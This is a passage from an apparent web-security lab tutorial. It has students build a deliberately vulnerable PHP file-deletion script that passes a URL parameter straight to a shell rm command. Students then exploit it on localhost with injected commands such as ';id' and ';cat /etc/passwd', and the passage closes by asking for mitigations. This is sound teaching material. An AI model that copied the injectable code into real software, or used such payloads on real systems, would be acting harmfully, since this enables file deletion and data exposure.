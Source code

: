 ==action: Open a terminal and type the command below to create a file called delete.php==.

```bash
vi delete.php
```

==action: Press the "i" key to enter "insert mode"==. 

==action: Enter and save this content (Ctrl + Shift + V to paste):==

```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```

> Note: OWASP code example: [https://owasp.org/www-community/attacks/Command\_Injection](https://owasp.org/www-community/attacks/Command_Injection)


==action: Press the "ESC" key to exit "insert mode"==. 

==action: To quit and save the file press the ":" key, followed by "wq" (write quit), and press Enter==.

==action: Self-host this PHP, using the PHP built-in webserver:==

```bash
php -S 127.0.0.1:8075
```

> Note: 127.0.0.1 is the IPv4 loopback address for [localhost](https://en.wikipedia.org/wiki/Localhost) (it connects back to the same computer, locally). We need to tell the PHP built-in-webserver to listen on a specific IP address.

==action: From Firefox visit:==

```
http://localhost:8075/delete.php?filename=hello
```

Open another terminal and ==action:verify that the file named “hello” was successfully deleted:==

```bash
ls | grep hello
```

Let’s try to exploit the “filename” parameter. From Firefox visit:

```
http://localhost:8075/delete.php?filename=hello;id

http://localhost:8075/delete.php?filename=hello;ls

http://localhost:8075/delete.php?filename=hello;cat /etc/passwd
```

> Question: Suppose you detected this vulnerability whilst undertaking a security audit. What would you recommend to the developers/owners of the application as mitigation?


[image-1]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/web_security/5_sqli_advanced/image-7.png